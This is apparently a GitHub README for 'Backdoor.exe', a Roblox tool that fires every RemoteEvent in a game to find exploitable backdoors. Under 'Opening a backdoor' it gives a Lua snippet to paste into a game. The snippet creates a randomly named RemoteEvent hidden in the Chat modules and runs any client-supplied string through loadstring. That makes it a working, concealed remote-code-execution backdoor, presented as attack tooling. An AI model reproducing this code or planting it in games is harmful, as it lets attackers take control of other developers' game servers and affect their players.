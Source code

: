 # Backdoor.exe
The best backdoor scanner there is. Our [Discord Server](https://discord.com/invite/6HndYgC).
## Credits
* iK4oS
* Bubba
* Redcarred2
* eeee

## Information
Backdoor.exe is script that scans for open backdoors in games in [Roblox](https://roblox.com/ "Roblox"). It does this by itterating through every Remote Event and firing a script of of them that creates an object. The scripts checks if the object is created, sees what Remote Event caused that to be created and stores it.

### Opening a backdoor
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
```lua
local Remote = Instance.new("RemoteEvent", game.Chat:WaitForChild("ClientChatModules").MessageCreatorModules)
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.OnServerEvent:connect(function(player, execute)
	loadstring(execute)()
end)
```

## To-do List
* [ ] Pop Up Logo
* [ ] Settings
* [ ] Account Info
* [ ] Server Lock
* [ ] Remote Search
* [ ] Save Backdoor

![Backdoor.exe](https://i.gyazo.com/76f9aeb40f6218a172f9988e46c9faaa.png)
